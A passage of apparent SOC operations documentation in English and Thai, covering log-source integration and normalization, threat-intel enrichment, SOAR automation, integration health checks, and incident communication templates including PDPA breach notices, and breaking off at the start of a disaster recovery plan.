### 1.2 Normalization Standards

All logs must be normalized to a common schema before ingestion:

| Field | Description | Format | Example |
|:---|:---|:---|:---|
| `@timestamp` | Event time | ISO 8601 UTC | `2026-02-16T07:00:00Z` |
| `source.ip` | Source IP | IPv4/IPv6 | `10.0.1.50` |
| `destination.ip` | Destination IP | IPv4/IPv6 | `203.0.113.1` |
| `user.name` | Username | String | `john.doe` |
| `host.hostname` | Host name | String | `WS-FINANCE-042` |
| `event.action` | What happened | String | `login_failed` |
| `event.outcome` | Result | success/failure | `failure` |
| `event.severity` | Severity level | Integer 0-10 | `7` |
| `event.category` | Category | Array | `["authentication"]` |

**Supported schemas**: ECS (Elastic Common Schema), CIM (Splunk Common Information Model), OCSF (Open Cybersecurity Schema Framework)

### 1.3 Log Source Priority

| Priority | Source Type | Examples | SLA (Onboarding) |
|:---:|:---|:---|:---|
| **P1** | Identity & Access | AD, Azure AD, Okta, VPN | ≤ 1 week |
| **P2** | Endpoint | EDR, AV, OS logs | ≤ 2 weeks |
| **P3** | Network | Firewall, IDS/IPS, Proxy, DNS | ≤ 2 weeks |
| **P4** | Cloud | AWS CloudTrail, Azure Activity, GCP | ≤ 3 weeks |
| **P5** | Application | Web servers, databases, SaaS | ≤ 4 weeks |
| **P6** | Physical | Badge access, CCTV | ≤ 4 weeks |

---

## 2. Enrichment Integrations

### 2.1 Threat Intelligence

| Feed | Type | Data | Refresh |
|:---|:---|:---|:---|
| **MISP** | Open-source TIP | IoCs, Galaxy clusters | Real-time |
| **ThreatFox** | Open feed | Malware IoCs | Hourly |
| **URLhaus** | Open feed | Malicious URLs | 5 min |
| **AbuseIPDB** | Community | IP reputation | On-demand |
| **Commercial** | Paid (e.g., Recorded Future) | Comprehensive TI | Real-time |

**Enrichment process**: Automate lookup of IPs, domains, hashes, and URLs extracted from alerts against TI feeds.

### 2.2 Asset & Identity Context

| Source | Data | Purpose |
|:---|:---|:---|
| **CMDB** | Asset inventory, criticality, owner | Prioritize alerts by asset value |
| **AD/LDAP** | User roles, groups, department | Identify privileged users |
| **Identity Provider** | SSO sessions, MFA status | Context for auth anomalies |
| **Vulnerability Scanner** | CVE status per host | Correlate exploit attempts |

### 2.3 GeoIP & DNS

| Service | Data | Use Case |
|:---|:---|:---|
| **MaxMind GeoIP** | Country, city, ASN | Impossible travel, geo-blocking |
| **Passive DNS** | Domain history, resolutions | Identify fast-flux, DGA |
| **WHOIS** | Domain registration | Phishing domain age check |

---

## 3. SOAR / Automation Integration

| Automation | Trigger | Action | Tool |
|:---|:---|:---|:---|
| **IoC Enrichment** | New alert | Lookup hash/IP/domain in TI | SOAR playbook |
| **Host Isolation** | Confirmed malware | Isolate via EDR API | CrowdStrike/SentinelOne |
| **Account Disable** | Account compromise | Disable in AD/IdP | SOAR → AD API |
| **Ticket Creation** | Alert above threshold | Create case in ITSM | ServiceNow/Jira integration |
| **Email Quarantine** | Phishing confirmed | Remove from all mailboxes | M365/Google API |
| **Block IP/Domain** | Confirmed C2 | Update firewall/proxy rules | Firewall API |

---

## 4. Health Monitoring

### Integration Health Dashboard

| Check | Method | Alert Threshold | Resolution |
|:---|:---|:---|:---|
| **Heartbeat** | Periodic status ping | No signal > 15 min | Check agent/service |
| **Data Freshness** | Last event timestamp | No events > 1 hour | Check source/network |
| **Event Rate** | Baseline comparison | Drop > 50% or spike > 200% | Investigate source |
| **API Errors** | HTTP status monitoring | > 5% error rate (401/403/429) | Check credentials/quota |
| **Parser Errors** | Parse failure rate | > 1% of events | Update parser |
| **Storage** | Disk/index utilization | > 80% capacity | Scale or archive |

### Automated Health Checks

```bash
# Example: check log freshness for critical sources
for source in firewall edr ad_auth dns proxy; do
  last_event=$(get_last_event_time "$source")
  age_minutes=$(calculate_age_minutes "$last_event")
  if [ "$age_minutes" -gt 60 ]; then
    send_alert "STALE_DATA" "$source" "$age_minutes"
  fi
done
```

---

## 5. Integration Onboarding Checklist

| # | Step | Owner | Done |
|:---:|:---|:---|:---:|
| 1 | Identify log source and data type | Detection Engineer | ☐ |
| 2 | Determine transport mechanism | SOC + IT Ops | ☐ |
| 3 | Configure collection (agent/API/syslog) | IT Ops | ☐ |
| 4 | Create normalization rules/parser | Detection Engineer | ☐ |
| 5 | Validate sample events in SIEM | SOC Analyst | ☐ |
| 6 | Configure enrichment (TI/CMDB) | Detection Engineer | ☐ |
| 7 | Create/assign detection rules | Detection Engineer | ☐ |
| 8 | Set up health monitoring | SOC Ops | ☐ |
| 9 | Document in Log Source Matrix | SOC Lead | ☐ |
| 10 | Sign-off and go-live | SOC Manager | ☐ |

---

## Related Documents

- [Detection Engineering Lifecycle](Content_Management.en.md)
- [Log Source Matrix](../06_Operations_Management/Log_Source_Matrix.en.md)
- [Log Source Onboarding](../06_Operations_Management/Log_Source_Onboarding.en.md)
- [TI Feeds Integration](../06_Operations_Management/TI_Feeds_Integration.en.md)
- [Troubleshooting](../04_Troubleshooting/Common_Issues.en.md)

## References

- [Sigma: Generic Signature Format](https://github.com/SigmaHQ/sigma)
- [Elastic Common Schema (ECS)](https://www.elastic.co/guide/en/ecs/current/index.html)
- [OCSF — Open Cybersecurity Schema Framework](https://schema.ocsf.io/)
- [Splunk CIM](https://docs.splunk.com/Documentation/CIM/latest)


---

## File: 03_User_Guides/Integration_Hub.th.md

# กลยุทธ์การเชื่อมต่อเครื่องมือ (Tool Integration Strategy)

เอกสารนี้กำหนดกลยุทธ์สำหรับเชื่อมต่อเครื่องมือด้านความปลอดภัยและแหล่ง Log เข้าสู่สถาปัตยกรรม SOC เพื่อลดจุดบอด เร่งการตรวจจับ และเปิดใช้งานการตอบสนองอัตโนมัติ

---

## สถาปัตยกรรมการเชื่อมต่อ

```mermaid
graph LR
    Source["🔌 แหล่ง Log"] -->|ส่งข้อมูล| Collect["📥 รวบรวม"]
    Collect -->|ปรับมาตรฐาน| Normalize["⚙️ Normalization"]
    Normalize -->|เติมบริบท| Enrich["🧠 Enrichment"]
    Enrich -->|จัดเก็บ| SIEM["💾 SIEM / Data Lake"]
    SIEM -->|ตรวจจับ| Rules["🔍 กฎตรวจจับ"]
    Rules -->|แจ้งเตือน| Alert["🚨 คิว Alert"]
    Alert -->|ตอบสนอง| SOAR["🤖 SOAR"]
```

---

## 1. การเชื่อมต่อ Log Source

### 1.1 กลไกการส่งข้อมูล

| กลไก | เหมาะสำหรับ | โปรโตคอล | ตัวอย่าง Agent |
|:---|:---|:---|:---|
| **API Polling** | Cloud (AWS, M365, SaaS) | REST/GraphQL | Native collectors |
| **Agent-based** | Server, Endpoint | Syslog, custom | Filebeat, Winlogbeat, OSQuery |
| **Syslog** | อุปกรณ์เครือข่าย, Firewall | UDP/TCP 514 | rsyslog, syslog-ng |
| **Webhook** | SaaS alerts, custom apps | HTTPS | N/A (push) |
| **SNMP Trap** | Network monitoring | UDP 162 | SNMP manager |

### 1.2 มาตรฐาน Normalization

| ฟิลด์ | คำอธิบาย | รูปแบบ | ตัวอย่าง |
|:---|:---|:---|:---|
| `@timestamp` | เวลาเหตุการณ์ | ISO 8601 UTC | `2026-02-16T07:00:00Z` |
| `source.ip` | IP ต้นทาง | IPv4/IPv6 | `10.0.1.50` |
| `destination.ip` | IP ปลายทาง | IPv4/IPv6 | `203.0.113.1` |
| `user.name` | ชื่อผู้ใช้ | String | `john.doe` |
| `host.hostname` | ชื่อเครื่อง | String | `WS-FINANCE-042` |
| `event.action` | สิ่งที่เกิดขึ้น | String | `login_failed` |
| `event.outcome` | ผลลัพธ์ | success/failure | `failure` |

### 1.3 ลำดับความสำคัญ Log Source

| ลำดับ | ประเภท | ตัวอย่าง | SLA |
|:---:|:---|:---|:---|
| **P1** | Identity & Access | AD, Azure AD, Okta, VPN | ≤ 1 สัปดาห์ |
| **P2** | Endpoint | EDR, AV, OS logs | ≤ 2 สัปดาห์ |
| **P3** | Network | Firewall, IDS/IPS, Proxy | ≤ 2 สัปดาห์ |
| **P4** | Cloud | AWS CloudTrail, Azure | ≤ 3 สัปดาห์ |
| **P5** | Application | Web server, DB, SaaS | ≤ 4 สัปดาห์ |

---

## 2. การเติมข้อมูล (Enrichment)

### 2.1 Threat Intelligence

| Feed | ประเภท | ข้อมูล | รีเฟรช |
|:---|:---|:---|:---|
| **MISP** | Open-source TIP | IoCs, Galaxy clusters | Real-time |
| **ThreatFox** | Open feed | Malware IoCs | ทุกชั่วโมง |
| **URLhaus** | Open feed | Malicious URLs | 5 นาที |
| **AbuseIPDB** | Community | IP reputation | On-demand |

### 2.2 บริบทสินทรัพย์และตัวตน

| แหล่ง | ข้อมูล | วัตถุประสงค์ |
|:---|:---|:---|
| **CMDB** | สินทรัพย์, ความสำคัญ, เจ้าของ | จัดลำดับ Alert ตามมูลค่าสินทรัพย์ |
| **AD/LDAP** | บทบาท, กลุ่ม, แผนก | ระบุผู้ใช้สิทธิ์สูง |
| **Vulnerability Scanner** | สถานะ CVE ต่อเครื่อง | เชื่อมโยงกับ exploit attempt |

---

## 3. SOAR / Automation

| Automation | Trigger | การดำเนินการ |
|:---|:---|:---|
| **IoC Enrichment** | Alert ใหม่ | Lookup hash/IP/domain ใน TI |
| **Host Isolation** | ยืนยัน malware | แยกเครื่องผ่าน EDR API |
| **Account Disable** | Account compromise | ปิดใน AD/IdP |
| **Block IP/Domain** | ยืนยัน C2 | อัปเดต firewall/proxy |

---

## 4. Health Monitoring

| การตรวจสอบ | วิธี | เกณฑ์แจ้งเตือน |
|:---|:---|:---|
| **Heartbeat** | Ping สถานะ | ไม่มีสัญญาณ > 15 นาที |
| **Data Freshness** | Timestamp เหตุการณ์ล่าสุด | ไม่มีเหตุการณ์ > 1 ชม. |
| **Event Rate** | เทียบ baseline | ลด > 50% หรือเพิ่ม > 200% |
| **API Errors** | HTTP status | Error rate > 5% |
| **Parser Errors** | อัตรา parse fail | > 1% ของ event |

---

## 5. Onboarding Checklist

| # | ขั้นตอน | ผู้รับผิดชอบ | เสร็จ |
|:---:|:---|:---|:---:|
| 1 | ระบุ log source และประเภทข้อมูล | Detection Engineer | ☐ |
| 2 | กำหนดกลไกส่งข้อมูล | SOC + IT Ops | ☐ |
| 3 | ตั้งค่า collection (agent/API/syslog) | IT Ops | ☐ |
| 4 | สร้าง normalization rules | Detection Engineer | ☐ |
| 5 | ตรวจสอบ sample events ใน SIEM | SOC Analyst | ☐ |
| 6 | ตั้งค่า enrichment (TI/CMDB) | Detection Engineer | ☐ |
| 7 | สร้าง/กำหนดกฎตรวจจับ | Detection Engineer | ☐ |
| 8 | ตั้งค่า health monitoring | SOC Ops | ☐ |
| 9 | บันทึกใน Log Source Matrix | SOC Lead | ☐ |
| 10 | Sign-off และ go-live | SOC Manager | ☐ |

---

## เอกสารที่เกี่ยวข้อง

- [วงจรชีวิตวิศวกรรมการตรวจจับ](Content_Management.th.md)
- [Log Source Matrix](../06_Operations_Management/Log_Source_Matrix.th.md)
- [TI Feeds Integration](../06_Operations_Management/TI_Feeds_Integration.th.md)

## Integration Troubleshooting Guide

### Common Integration Issues

| ปัญหา | สาเหตุ | วิธีแก้ |
|:---|:---|:---|
| Connection timeout | Firewall block | เปิด port ที่จำเป็น |
| Auth failure | Token expired | Rotate API key |
| Data mismatch | Schema change | Update parser |
| Rate limiting | Too many requests | Implement backoff |
| Duplicate events | No dedup config | Enable dedup filter |

### API Rate Limits by Platform

| Platform | Rate Limit | Burst | Reset Window |
|:---|:---|:---|:---|
| VirusTotal | 4 req/min | 500/day | 24 hours |
| AbuseIPDB | 1,000/day | 60/min | Daily |
| Shodan | 1 req/sec | 100/min | Per second |
| OTX | 10,000/day | N/A | Daily |

### Integration Health Monitoring

| Check | Frequency | Auto-alert |
|:---|:---|:---|
| Connectivity test | ทุก 5 min | Yes |
| Data freshness | ทุก 15 min | Yes |
| Error rate | Hourly | If > 5% |
| Throughput | Daily | If < baseline |

### Integration Priority Guide

| Priority | Integration Type | Benefit |
|:---|:---|:---|
| P1 | SIEM ↔ Ticketing | Alert → Ticket auto |
| P2 | SIEM ↔ TI Feed | IOC enrichment |
| P3 | EDR ↔ SOAR | Auto-contain |
| P4 | Email ↔ SOAR | Phishing auto-triage |

## อ้างอิง

- [Sigma](https://github.com/SigmaHQ/sigma)
- [Elastic Common Schema (ECS)](https://www.elastic.co/guide/en/ecs/current/index.html)
- [OCSF](https://schema.ocsf.io/)


---

## File: 05_Incident_Response/Communication_Templates.en.md

# Incident Communication Templates

> **Document ID:** COMM-001  
> **Version:** 1.0  
> **Last Updated:** 2026-02-15  
> **Owner:** SOC Manager / IR Lead

---

## Communication Matrix

| Severity | Internal Notify | Management | Legal | External | Regulator |
|:---:|:---|:---|:---|:---|:---|
| **P1 Critical** | Immediate | Immediate | Immediate | Within 4h | Per regulation |
| **P2 High** | 15 min | 1h | If data breach | As needed | If required |
| **P3 Medium** | 30 min | Daily report | No | No | No |
| **P4 Low** | Next standup | Weekly report | No | No | No |

---

## Template 1: Initial Incident Notification (Internal)

**Channel:** Slack / Teams / Email  
**When:** Immediately upon P1/P2 confirmation

```
🚨 SECURITY INCIDENT — [P1/P2] — [Incident Type]

Incident ID:    INC-[YYYY]-[###]
Severity:       [P1 Critical / P2 High]
Detected:       [YYYY-MM-DD HH:MM UTC]
Affected:       [Systems / Users / Data]

Summary:
[1-2 sentences describing what happened]

Current Status:
- [ ] Containment in progress
- [ ] Investigation underway
- [ ] Affected users notified

Next Update:    [Time — typically 30-60 min for P1]
Incident Lead:  [Name]
War Room:       [Slack channel / Teams link / Bridge number]

⚠️ Do NOT discuss outside of this channel.
```

---

## Template 2: Management Executive Brief

**Channel:** Email / In-person  
**When:** Within 1 hour (P1), 4 hours (P2)

```
Subject: 🔴 Security Incident Brief — [INC-ID] — [Type]

To: [CISO, CTO, CEO as appropriate]

EXECUTIVE SUMMARY
━━━━━━━━━━━━━━━━━
Incident:     [Brief description]
Severity:     [P1/P2] — [Business impact in plain language]
Started:      [When first detected]
Status:       [Contained / Active / Investigating]

IMPACT ASSESSMENT
━━━━━━━━━━━━━━━━━
Systems:      [X servers / Y endpoints affected]
Data:         [Type of data potentially exposed]
Users:        [Number of users impacted]
Business:     [Revenue impact / operational disruption]

WHAT WE'RE DOING
━━━━━━━━━━━━━━━━━
1. [Action being taken now]
2. [Next planned step]
3. [Estimated resolution time if known]

DECISIONS NEEDED
━━━━━━━━━━━━━━━━━
- [Any decisions requiring management approval, e.g., paying ransom, public disclosure, system shutdown]

NEXT UPDATE
━━━━━━━━━━━
[When the next update will be provided]

Contact: [IR Lead Name, Phone]
```

---

## Template 3: User Notification — Password Reset Required

**Channel:** Email  
**When:** After account compromise confirmed

```
Subject: Action Required: Security-Related Password Reset

Dear [User/Team],

Our security team has detected suspicious activity related to
your account. As a precautionary measure, we have reset your
password and revoked active sessions.

REQUIRED ACTIONS:
1. Reset your password at [link] using a NEW, unique password
2. Re-enroll your MFA at [link]
3. Review your recent account activity for anything unusual
4. Report anything suspicious to security@company.com

WHAT HAPPENED:
[Brief, non-technical explanation without details that could
help an attacker]

If you did NOT initiate any unusual activity, no further
action is needed beyond the steps above.

Questions? Contact the IT Help Desk at [number/email].

— Information Security Team
```

---

## Template 4: Customer / External Notification — Data Breach

**Channel:** Email  
**When:** After legal review, within regulatory timeline (PDPA: 72h)

```
Subject: Important Security Notice from [Company Name]

Dear Valued Customer,

We are writing to inform you of a security incident that may
affect your personal information.

WHAT HAPPENED
On [date], we discovered unauthorized access to [system].
We immediately took action to contain the incident and began
a thorough investigation.

WHAT INFORMATION WAS INVOLVED
The following types of information may have been affected:
- [List specific data types: name, email, phone, etc.]

WHAT WE ARE DOING
- We engaged cybersecurity experts to investigate
- We notified relevant authorities [สำนักงานคุ้มครองข้อมูลส่วนบุคคล / PDPC]
- We implemented additional security measures
- We are offering [credit monitoring / identity protection] at no cost

WHAT YOU CAN DO
- Change your password on our platform
- Monitor your accounts for unusual activity
- Be cautious of phishing emails claiming to be from us
- [Enroll in free identity protection at: link]

FOR MORE INFORMATION
- Dedicated helpline: [phone number]
- Email: [incident-response@company.com]
- FAQ page: [link]

We sincerely apologize for any inconvenience.

[CEO/CISO Name]
[Company Name]
```

---

## Template 5: Regulator Notification (PDPA — Thailand)

**Channel:** Official letter / Online form  
**When:** Within 72 hours of discovery

```
TO:     สำนักงานคณะกรรมการคุ้มครองข้อมูลส่วนบุคคล (PDPC)
FROM:   [Company Name] — Data Protection Officer
DATE:   [Date]
RE:     แจ้งเหตุละเมิดข้อมูลส่วนบุคคล (Personal Data Breach Notification)

ตามพระราชบัญญัติคุ้มครองข้อมูลส่วนบุคคล พ.ศ. 2562 มาตรา 37(4)

1. ข้อมูลผู้แจ้ง
   - ชื่อองค์กร: [Company]
   - DPO: [Name, Contact]
   - วันที่พบเหตุ: [Date]

2. ลักษณะเหตุการณ์
   - ประเภท: [Unauthorized access / Data leak / Ransomware]
   - ระบบที่ได้รับผลกระทบ: [Systems]
   - จำนวนเจ้าของข้อมูลที่ได้รับผลกระทบ: [Number]

3. ประเภทข้อมูลที่เกี่ยวข้อง
   - [x] ชื่อ-นามสกุล
   - [ ] เลขบัตรประชาชน
   - [ ] ข้อมูลการเงิน
   - [x] อีเมล / เบอร์โทรศัพท์
   - [ ] ข้อมูลสุขภาพ

4. มาตรการที่ดำเนินการแล้ว
   - [Containment actions taken]
   - [Remediation in progress]

5. การประเมินความเสี่ยง
   - ระดับความเสี่ยง: [สูง/กลาง/ต่ำ]
   - เหตุผล: [Justification]

6. มาตรการป้องกันในอนาคต
   - [Future prevention measures]

ลงชื่อ: _______________
ตำแหน่ง: Data Protection Officer
```

---

## Template 6: Post-Incident Report (Summary)

**Channel:** Email / Meeting  
**When:** Within 5 business days after incident closure

```
Subject: Post-Incident Report — [INC-ID] — [Type]

INCIDENT SUMMARY
━━━━━━━━━━━━━━━━━
ID:           [INC-YYYY-###]
Type:         [Ransomware / Phishing / BEC / etc.]
Severity:     [P1–P4]
Duration:     [Start time] to [Resolution time]
MTTD:         [Mean Time to Detect]
MTTR:         [Mean Time to Respond]

TIMELINE
━━━━━━━━
[HH:MM] Alert received
[HH:MM] Triage completed
[HH:MM] Containment executed
[HH:MM] Investigation completed
[HH:MM] Remediation applied
[HH:MM] Recovery confirmed
[HH:MM] Incident closed

ROOT CAUSE
━━━━━━━━━━
[Technical root cause explanation]

IMPACT
━━━━━━
- Systems: [List]
- Data: [Was data compromised?]
- Financial: [Cost estimate if applicable]
- Reputation: [Any external impact?]

WHAT WENT WELL
━━━━━━━━━━━━━━
1. [Positive observation]
2. [Positive observation]

WHAT TO IMPROVE
━━━━━━━━━━━━━━━
1. [Gap identified]
2. [Gap identified]

ACTION ITEMS
━━━━━━━━━━━━
| Action | Owner | Deadline | Status |
|--------|-------|----------|--------|
| [Fix]  | [Who] | [When]   | [ ]    |
```

---

## Slack / Teams Channel Naming Convention

```
#inc-YYYY-NNN-brief-description
Example: #inc-2026-042-ransomware-finance
```

| Channel | Purpose |
|:---|:---|
| `#inc-YYYY-NNN-*` | Active incident war room |
| `#soc-alerts` | Alert notifications from SIEM |
| `#soc-handoff` | Shift handoff notes |
| `#soc-general` | Day-to-day SOC discussion |

---

## Related Documents

- [IR Framework](Framework.en.md)
- [Severity Matrix](Severity_Matrix.en.md)
- [Tabletop Exercises](Tabletop_Exercises.en.md)


---

## File: 05_Incident_Response/Communication_Templates.th.md

# แม่แบบการสื่อสารเหตุการณ์

> **รหัสเอกสาร:** COMM-001  
> **เวอร์ชัน:** 1.0  
> **อัปเดตล่าสุด:** 2026-02-15  
> **เจ้าของ:** SOC Manager / IR Lead

---

## ตารางการแจ้ง

| ระดับ | ภายใน | ผู้บริหาร | Legal | ภายนอก | หน่วยงานกำกับ |
|:---:|:---|:---|:---|:---|:---|
| **P1** | ทันที | ทันที | ทันที | 4 ชม. | ตามกฎหมาย |
| **P2** | 15 นาที | 1 ชม. | ถ้ามีข้อมูลรั่ว | ตามจำเป็น | ถ้าจำเป็น |
| **P3** | 30 นาที | รายงานรายวัน | ไม่ | ไม่ | ไม่ |
| **P4** | standup ถัดไป | รายงานรายสัปดาห์ | ไม่ | ไม่ | ไม่ |

---

## แม่แบบ 1: แจ้งเตือนภายใน

```
🚨 เหตุการณ์ความปลอดภัย — [P1/P2] — [ประเภท]

Incident ID:    INC-[YYYY]-[###]
ความรุนแรง:      [P1 วิกฤต / P2 สูง]
ตรวจพบ:         [วัน-เวลา]
ระบบที่โดน:      [ระบบ / ผู้ใช้ / ข้อมูล]

สรุป: [1-2 ประโยค]

สถานะ:
- [ ] กำลังควบคุมเหตุการณ์
- [ ] กำลังสืบสวน
- [ ] แจ้งผู้ใช้ที่ได้รับผลกระทบแล้ว

อัปเดตถัดไป:    [เวลา]
ผู้รับผิดชอบ:     [ชื่อ]
ห้องปฏิบัติการ:   [Slack/Teams link]

⚠️ ห้ามพูดคุยนอกช่องทางนี้
```

---

## แม่แบบ 2: สรุปให้ผู้บริหาร

```
เรื่อง: 🔴 สรุปเหตุการณ์ — [INC-ID]

เรียน CISO / CTO

สรุป:       [คำอธิบายสั้น]
ความรุนแรง:  [P1/P2] — [ผลกระทบธุรกิจ]
สถานะ:      [ควบคุมได้ / กำลังดำเนินการ]

ผลกระทบ:
- ระบบ: [จำนวน]
- ข้อมูล: [ประเภท]
- ผู้ใช้: [จำนวน]

สิ่งที่ดำเนินการ:
1. [ตอนนี้]
2. [ขั้นต่อไป]

ต้องการอนุมัติ:
- [ถ้ามี]

อัปเดตถัดไป: [เวลา]
```

---

## แม่แบบ 3: แจ้ง User รีเซ็ตรหัสผ่าน

```
เรื่อง: กรุณาดำเนินการ: รีเซ็ตรหัสผ่านเพื่อความปลอดภัย

เรียน [ผู้ใช้],

ทีมความปลอดภัยตรวจพบกิจกรรมผิดปกติในบัญชีของคุณ
เราได้รีเซ็ตรหัสผ่านและยกเลิก session เป็นมาตรการป้องกัน

สิ่งที่ต้องทำ:
1. ตั้งรหัสผ่านใหม่ที่ [link]
2. ลงทะเบียน MFA ใหม่
3. ตรวจดูกิจกรรมล่าสุดในบัญชี
4. แจ้ง security@company.com หากพบสิ่งผิดปกติ

— ทีมรักษาความปลอดภัยข้อมูล
```

---

## แม่แบบ 4: แจ้งลูกค้า — ข้อมูลรั่วไหล

```
เรื่อง: แจ้งเตือนด้านความปลอดภัยจาก [ชื่อบริษัท]

เรียน ลูกค้า,

เราขอแจ้งให้ทราบเกี่ยวกับเหตุการณ์ด้านความปลอดภัย:

สิ่งที่เกิดขึ้น:
[คำอธิบาย]

ข้อมูลที่อาจได้รับผลกระทบ:
- [รายการข้อมูล]

สิ่งที่เราดำเนินการ:
- แจ้งหน่วยงาน PDPC แล้ว
- เสริมมาตรการป้องกัน
- ให้บริการ identity protection ฟรี

สิ่งที่คุณควรทำ:
- เปลี่ยนรหัสผ่าน
- ระวัง phishing email

สายด่วน: [เบอร์]
อีเมล: [incident@company.com]
```

---

## แม่แบบ 5: แจ้ง PDPC (สำนักงานคุ้มครองข้อมูลส่วนบุคคล)

```
เรียน สำนักงาน PDPC

ตาม พ.ร.บ.คุ้มครองข้อมูลส่วนบุคคล พ.ศ. 2562 มาตรา 37(4)

1. ข้อมูลผู้แจ้ง: [ชื่อองค์กร, DPO]
2. ลักษณะเหตุการณ์: [ประเภท, ระบบ, จำนวนเจ้าของข้อมูล]
3. ประเภทข้อมูล: [ชื่อ/อีเมล/การเงิน/สุขภาพ]
4. มาตรการที่ดำเนินการ: [containment + remediation]
5. ระดับความเสี่ยง: [สูง/กลาง/ต่ำ]
6. แผนป้องกัน: [อนาคต]

ลงชื่อ: DPO
```

---

## แม่แบบ 6: รายงานหลังเหตุการณ์

```
สรุปเหตุการณ์ INC-[ID]
ประเภท:  [Ransomware / BEC / etc.]
ระดับ:    [P1-P4]
ระยะเวลา: [เริ่ม] ถึง [จบ]
MTTD:    [เวลาตรวจพบ]
MTTR:    [เวลาแก้ไข]

Timeline + สาเหตุ + ผลกระทบ + สิ่งที่ดี + สิ่งที่ปรับปรุง + Action Items
```

---

## เทมเพลตเพิ่มเติม

### แจ้งผู้บริหาร (Critical Incident)

```
เรียน [ตำแหน่งผู้รับ],

ขอแจ้งเหตุการณ์ด้านความปลอดภัยระดับ [Critical/High]:

📋 รายละเอียด:
- Incident ID: [INC-YYYY-NNN]
- ตรวจพบเมื่อ: [วัน/เวลา]
- ประเภท: [Ransomware/Data Breach/ฯลฯ]
- ระบบที่ได้รับผลกระทบ: [ระบุ]
- ผลกระทบทางธุรกิจ: [downtime/data exposure/ฯลฯ]

🔒 สถานะการจัดการ:
- สถานะปัจจุบัน: [Contained/Under Investigation]
- มาตรการที่ดำเนินการ: [ระบุ]
- ETA แก้ไข: [ระบุ]

👤 ผู้ประสานงาน: [ชื่อ, เบอร์โทร]
อัปเดตถัดไป: [เวลา]
```

### แจ้งลูกค้า / เจ้าของข้อมูล (PDPA)

```
เรียน [ชื่อ/ท่าน],

[ชื่อองค์กร] ขอแจ้งให้ท่านทราบว่าเราตรวจพบเหตุการณ์ด้านความปลอดภัย
ที่อาจส่งผลกระทบต่อข้อมูลส่วนบุคคลของท่าน

📋 สิ่งที่เกิดขึ้น:
[อธิบายเหตุการณ์อย่างกระชับ]

📊 ข้อมูลที่อาจได้รับผลกระทบ:
[ประเภทข้อมูล — เช่น ชื่อ, อีเมล, เบอร์โทร]

🔒 สิ่งที่เราดำเนินการ:
1. [มาตรการที่ 1]
2. [มาตรการที่ 2]

🛡️ สิ่งที่ท่านควรทำ:
1. เปลี่ยนรหัสผ่าน
2. เปิดใช้งาน Multi-Factor Authentication
3. ระวังอีเมล/SMS ที่น่าสงสัย

📞 ผู้ประสานงาน DPO: [ชื่อ, อีเมล, โทร]
```

### สรุปเหตุการณ์ (Post-Incident)

```
เรื่อง: สรุปเหตุการณ์ [INC-YYYY-NNN] — [ประเภท]

📋 สรุป:
- ตรวจพบ: [วัน/เวลา]
- ควบคุมได้: [วัน/เวลา]
- แก้ไขเสร็จ: [วัน/เวลา]
- ระยะเวลาทั้งหมด: [XX ชั่วโมง]

📊 ผลกระทบ:
- ระบบที่ได้รับผลกระทบ: [XX] ระบบ
- ข้อมูลรั่วไหล: [ใช่/ไม่]
- Downtime: [XX ชั่วโมง]

✅ บทเรียน:
1. [สิ่งที่ทำได้ดี]
2. [สิ่งที่ต้องปรับปรุง]

🔧 Action Items:
- [รายการแก้ไข + ผู้รับผิดชอบ + กำหนด]
```

## Communication Do's & Don'ts

| ✅ ควรทำ | ❌ ไม่ควรทำ |
|:---|:---|
| ใช้ภาษาชัดเจน ไม่ใช้ศัพท์เทคนิค (กับผู้บริหาร) | เปิดเผยรายละเอียดทาง technical กับสื่อ |
| ระบุ Incident ID ทุกการสื่อสาร | คาดเดาสาเหตุก่อนสอบสวนเสร็จ |
| ให้ข้อมูลที่เป็นข้อเท็จจริงเท่านั้น | โทษบุคคลหรือทีมใดทีมหนึ่ง |
| ระบุ next update time | สัญญาว่า "จะไม่เกิดอีก" |
| เก็บ audit trail ของทุกการสื่อสาร | ส่งข้อมูลผ่านช่องทางไม่เข้ารหัส |

## การสื่อสารตามระดับความรุนแรง

### Communication Matrix

| Severity | แจ้งใคร | ช่องทาง | Timeline |
|:---|:---|:---|:---|
| Critical | CEO, CISO, Legal, PR | Phone + Email | ภายใน 15 นาที |
| High | CISO, IT Director | Email + Chat | ภายใน 30 นาที |
| Medium | SOC Manager, IT Lead | Email | ภายใน 2 ชั่วโมง |
| Low | SOC Team | Ticketing system | ภายใน 24 ชั่วโมง |

### Status Update Template

```markdown
## Incident Status Update #[N]
- **Incident ID**: INC-YYYY-NNNN
- **Severity**: [Critical/High/Medium/Low]
- **Current Status**: [Investigating/Containing/Eradicating/Recovering]
- **Impact**: [ระบุผลกระทบ]
- **Actions Taken**: [ดำเนินการแล้ว]
- **Next Steps**: [ขั้นตอนถัดไป]
- **ETA Resolution**: [ประมาณเวลา]
- **Contact**: [ผู้รับผิดชอบ + เบอร์]
```

### External Communication Guidelines

| ผู้รับ | เมื่อไหร่ | ใครเป็นคนส่ง | อนุมัติโดย |
|:---|:---|:---|:---|
| ลูกค้า | ข้อมูลรั่ว | PR + Legal | CEO |
| หน่วยงานกำกับ | PDPA breach | DPO | CISO |
| สื่อมวลชน | เหตุสาธารณะ | PR | CEO |
| Partner/Vendor | ส่งผลกระทบ | IT Director | CISO |

### Post-Incident Communication

| Timing | Content | Audience |
|:---|:---|:---|
| +24 hrs | Initial summary | Internal stakeholders |
| +72 hrs | Root cause update | Management |
| +7 days | Full post-mortem | All affected parties |
| +30 days | Remediation status | Regulatory (if needed) |

### Quick Contact Card

| Role | Primary | Backup |
|:---|:---|:---|
| CISO | Phone | SMS |
| SOC Lead | Chat | Phone |
| Legal | Email | Phone |

## เอกสารที่เกี่ยวข้อง

- [กรอบ IR](Framework.th.md)
- [ตารางความรุนแรง](Severity_Matrix.th.md)
- [สถานการณ์จำลอง](Tabletop_Exercises.th.md)


---

## File: 05_Incident_Response/Disaster_Recovery_BCP.en.md

# SOC Disaster Recovery & Business Continuity Plan

**Document ID**: OPS-SOP-011
**Version**: 1.0
**Classification**: Confidential
**Last Updated**: 2026-02-15

> When the SOC itself goes down — SIEM failure, network outage, ransomware hitting SOC infrastructure — this plan tells you **how to keep operating** and **how to recover**.

---

## Scope

This document covers:
- 🛡️ SOC infrastructure failures (SIEM, EDR, ticketing, network)
- 🔄 Failover and manual operating procedures
- 📋 Recovery steps and priorities
- 🎯 RPO/RTO targets for SOC services

This does **NOT** replace the organization-wide BCP/DR plan. It supplements it with SOC-specific procedures.

---

## SOC Service Catalog & RTO/RPO

| # | SOC Service | RTO | RPO | Priority | Backup Method |
|:---:|:---|:---:|:---:|:---:|:---|
